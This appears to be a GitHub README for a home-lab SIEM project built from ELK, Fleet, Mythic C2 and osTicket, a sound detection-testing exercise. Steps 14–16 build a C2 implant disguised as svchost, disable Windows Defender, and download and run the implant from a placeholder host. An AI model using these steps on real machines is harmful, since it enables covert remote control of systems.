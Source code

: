 # 30-Day-On-Prem

## Objective

Implement a comprehensive Security Information and Event Management (SIEM) system on-premises. The project will focus on, deploying and configuring an ELK stack (Elasticsearch, Logstash, Kibana) to collect, process, and visualize security-relevant data, setting up a Fleet Server to manage and monitor Elastic Agents deployed on various systems and keep it all centralized, provisioning Windows and Linux server environments for testing and demonstration purposes, integrating a Mythic C2 server to simulate cyberattacks and assess the SIEM's detection capabilities, ans deploying an OSTicket server for incident management and ticketing. The overall goal is to establish a robust SIEM solution capable of detecting, analyzing, and responding to security threats within the organization.

### Skills Learned

ELK Stack: Elasticsearch, Logstash, and Kibana for data ingestion, processing, and visualization.
Security Information and Event Management (SIEM): Understanding of SIEM concepts, best practices, and use cases.
Network and System Administration: Knowledge of system configurations and troubleshooting techniques.
Security Tools and Technologies: Familiarity with tools like Kali, osTicket, and other security assessment tools.
Problem-solving: Ability to identify and troubleshoot issues related to SIEM deployments and data analysis.
Analytical Thinking: Skill in analyzing large datasets to identify security threats and patterns.
Attention to Detail: Meticulous approach to ensure accurate data collection and analysis.
Continuous Learning: A mindset of staying updated with the latest security threats and technologies.

### Tools Used

Elasticsearch: For storing and analyzing large volumes of data.
Logstash: Collects, processes, and transforms data from various sources.
Kibana: A powerful visualization tool for exploring and analyzing data stored in Elasticsearch.
Beats: Lightweight data shippers (e.g., Filebeat, Auditbeat, Metricbeat) to collect data from various sources.
Threat Intelligence Platforms: Tools to gather and analyze threat intelligence data.
Configuration Management Tools: To automate the deployment and configuration of the SIEM components.


## Steps

1. In Virtual box get your 6 machines ready. 4 ubuntu Libux m 2 Windows servers.<br>
![VMs](https://github.com/user-attachments/assets/a24c743d-907d-4d7e-b02f-e08b3b694833)<br>
*Ref 1: VMs*<br>
2. Set up your NAT network, enter your prefered IPv4 prefic and group your VMs into your newly created NAT network.<br>
![NAT Network](https://github.com/user-attachments/assets/735129b7-a24b-4b65-b076-2e3d48932b45)<br>
*Ref 2: NAT Network*<br>
3. Spin up your machines and update them.
4. Configure SSH port forwarding in your VM software, create one for each VM.<br>
![port-forwarding](https://github.com/user-attachments/assets/ee3278a5-30eb-4ba2-9df2-6be36221ef7f)<br>
*Ref 3: Port Forwarding*<br>
5. Install Elastic and Kibana on your ELK server and Sysmon on your Windows Server. Sudo nano /etc/elasticsearch/elasticsearh.yml > uncomment "network.host" and change it to the VMs ip and uncomment port. Start up elastic.<br>
![start elasticsearch](https://github.com/user-attachments/assets/7c4277af-cca8-466c-a77e-76c862fe3956)<br>
*Ref 4: Start elastic*<br>
6. Install Kibana, update config file > uncomment "server.port" and "server.host" and change it to ip address, same with "server.publicBaseUrl" with <ip address>:5601.<br>
![kibana config](https://github.com/user-attachments/assets/fc12b7e2-62a3-41fa-93bb-f59a48597e37)<br>
*Ref 5: Kibana config*<br>
7. Create encryption keys > cd /usr/share/kibana/bin > sudo ./kibana-encryption-keys generate. Next sudo ./kibana-keystore add <encryption key filename> > encryption key. Start up Kibana.<br>
![kibana generate encrypt keys](https://github.com/user-attachments/assets/0c2e2889-fd62-4d47-bf0a-9859d13167db)<br>
*Ref 6: Generate enctyption keys*<br>
![kibana encryption keys](https://github.com/user-attachments/assets/c8bc5e16-0f93-482e-b8b4-9a5245ef4fba)<br>
*Ref 7: Encryption keys*<br>
![start kibana](https://github.com/user-attachments/assets/81dff932-ce13-4ef2-847c-dc21945a767d)<br>
*Ref 8: Start Kibana*
8. Create a port forward rule on virtualbox(or VMware) to ELK. Create enrollment token > cd/usr/share/elasticsearch/bin. For verification code: cd /usr/share/kibana/bin > sudo ./kibana-verification-code. To login use elastic as username and password from security auto-configuration information("elastic built-in superuser passwrod").<br>
![ELK port forward](https://github.com/user-attachments/assets/5894648f-87b3-4a15-8078-48770b7941ca)<br>
*Ref 9: ELK port forward*<br>
![kibana enrollment key](https://github.com/user-attachments/assets/c175773b-674c-4425-8287-c14e76ed298c)<br>
*Ref 10: Enrollment key*<br>
![kibana verification code](https://github.com/user-attachments/assets/57e5270d-d35d-4cb2-831d-b7988c725d4e)<br>
*Ref 11: Verification code*<br>
9. Setup Fleet Server, Hamburger icon > fleet > add fleet server. Specify name, URL is the ip address of the fleet VM > generate server policy > fleet settings to change port from 443 to 8220 in Edit Fleet Server. Click agents > add fleet server > continue; copy Linux Tar and paste into fleet VM. Continue enrolling elastic agent > enter a policy name > create policy > click Windows tab and copy agent install text > on Windows server VM paste into an admin PowerShell instance. use "--insecure" flag.<br>
![elastic screen](https://github.com/user-attachments/assets/dce33c5a-0715-41f5-bd91-44490badbd7e)<br>
*Ref 12: elastic screen*<br>
![PS insecure agent](https://github.com/user-attachments/assets/233783f1-cc9b-497e-978d-979c0712b4cc)<br>
*Ref 13: insecure flag*<br>
![windows add agent](https://github.com/user-attachments/assets/42dd1a73-a36b-45c9-a653-184ef7baf22f)<br>
*Ref 14: Windows add agent*<br>
![Add Agent success](https://github.com/user-attachments/assets/f65fdb07-289a-42c2-a5be-026e9716dd3c)<br>
*Ref 15: Add Windows agent success*<br>
10. Add and Agent for Linux(Ubuntu) Server > create new agent policy > name it > enroll in fleet > create policy > copy Linux Tar and paste into Linux Server.<br>
![elastic screen](https://github.com/user-attachments/assets/9d84d1dd-1e1d-4594-be5d-4d0fa940a537)<br>
*Ref 16: Elastic screen*<br>
![Fleet](https://github.com/user-attachments/assets/fdbd22f3-b0a0-4bbf-b236-4957421d3883)<br>
*Ref 17: Fleet*<br>
11. Click the Haburger Icon > Integrations > Search "custom windows event logs" > add custom winds event logs > name it, for channel name go to windows server and open event viewer to find sysmon then operational: right-click, properties, "full name" is the channel name > exisiting host under "where to add", ...; win-policy > save and continue.<br>
![Custom windows event logs](https://github.com/user-attachments/assets/03598f24-eb91-4029-8187-3dbb992208cf)<br>
*Ref 18: Custom Windows event logs*<br>
12. On your Windows Server, Event viewer find Windows Defender > operational, properties, copy "full name" and add another custom Windows event logs like above. Enable RDP on Windows Server under remote desktop settings<br>
13. Install docker-compose and make on your mythic vm. Install <a href="https://docs.mythic-c2.net/installation">Mythic</a> then run sudo make. > sudo ./mythic-cli start > cat env, and create another port forwarding rule for Mythic, then install a Mythic agent and C2 profile.<br>
14. Make a Mythic payload by going to payloads > Actions > Generate new payload > Windows > Apollo > include all commands > include http: callback remove the s from hhtps and change it to the mythic vms ip address > create pay load > go to payloads and right click download and copy link address.
![Mythic payload](https://github.com/user-attachments/assets/e6297be7-be64-4034-87a7-abbeebc9950b)<br>
*Ref 19: Mythic payload*<br>
![Mythic agent and profile](https://github.com/user-attachments/assets/371b2f2e-a574-4d49-ab0b-9671ef0b3eda)<br>
*Ref 20: Mythic agent and profile*<br>
![Mythic active callback](https://github.com/user-attachments/assets/114ebab0-2ff4-48ed-b5c6-09cbe672254b)<br>
*Ref 21: Mythic active callback*<br>
15. In the Mythic VM cd into home directory > wget <-link address>; change 8443 to 744. and ip to the mythic vm ip nad --no-check-certificate > mv <file> svchost-<make a filename>.exe < python3 -m http.server 9999
16. Disable Windows Defender on the Windows Server and add an exclusion for the Downloads Folder. In PowerShell invoke-webrequest -uri http://<-mythic vm ip address>:9999/svchost-<filename>.exe -Outfile "(:\Users\Administrator\Downloads\svchost-<filename>.exe" > run the file thats in downloads.
17. Spin up your osTicket VM. Download <a href="https://www.apachefriends.org/download.html">xampp</a> by apache and <a href="https://osticket.com/">osTicket</a>. Click on xampp to install it. Extract all of the osTicket download after you extract the osticket zip in that folder.
![osTicket download](https://github.com/user-attachments/assets/2f9da10e-cc8d-4779-8662-51d54f098e22)<br>
*Ref 22: osTicket download*<br>
18. Navigate to xampp folder, find properties and edit it to change the Domain name to the VMs ip address, do the same to mysqlhost.
19. Open xampp control panel and start apache and mysql, click admin nnext to apache > phpMyAdmin > New, to create a new database > name it > create > home > user accounts > click "root" mext to "localhost" > change password > enter password, click go > login information, under host select "use text field", enter the osTicket VM ip address, enter a password > Go.
20. Navigate to phpMyAdmin folder > make a back of config.inc.php file, open original in notepad > change password of user-root to the one you just created, and add the ip address of the osTicket VM (make sure login hos is your VM ip). Go back to user accounts > root account > databases > select your database under "Add privileges..." > Go > check all > Go.
 ![config inc](https://github.com/user-attachments/assets/c1a85f1b-c435-46a9-99d0-d7142755f0f5)<br>
*Ref 23: config.inc*<br>
21. Navigate to osTicket folder you extracted > copy the "scripts" and "upload" folders and paste into a new folder you create called "osticket" in the htdocs folder under the xampp folder. Access the server/installer in a browser with <-VM ip address >/osticket/upload" > continue > go back to the upload folder in htdocs > include > rename ost-sampleconfig.php to ost-config.php > back to broswer, click continue > fill out the form; use the mysql database you created > click install now, Access system with staff control panel link.<br>
![osticket installer](https://github.com/user-attachments/assets/49bc3fca-1936-41cf-a500-e3de6d48641f)<br>
*Ref 24: osticket installer*<br>
![osticket install form](https://github.com/user-attachments/assets/3b391cd2-5e8d-49e7-8aca-502bcc0d4031)<br>
*Ref 25: osticket install form*<br>
